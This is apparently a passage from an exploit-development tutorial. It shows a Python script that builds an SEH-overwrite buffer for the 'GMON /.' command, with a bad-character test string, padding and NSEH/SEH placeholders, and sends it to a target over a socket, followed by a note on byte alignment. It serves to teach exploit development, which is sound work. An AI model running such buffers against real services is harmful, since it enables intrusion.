 ```python
f = open('/srv/samba/protected/badchars.bin', 'wb')
f.write(badstring)
f.close()

buf = b""
buf += b"GMON /."

buf += b"A"         # alignment (1 Byte)
buf += badstring    # bad char test string
buf += b"A" * (offset - len(badstring) - 1 )

buf += b"B" * 4         # NSEH
buf += b"C" * 4         # SEHandler
buf += b"D" * (size - offset - 8)
buf += line_ending

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))

# receive banner
banner = s.recv(1024)
print(banner)

# send evil buffer
print(f"Sending evil buffer with {len(buf)} bytes and payload length {size}...")
s.send(buf)

# receive response
a = s.recv(1024)
print(a)

s.close()
print("Done!")
```

Please note that I added one `A` (`0x41`) byte before the badchar test string since the byte string `GMON /.` is only 7 bytes long. This will align the start of the test string properly.
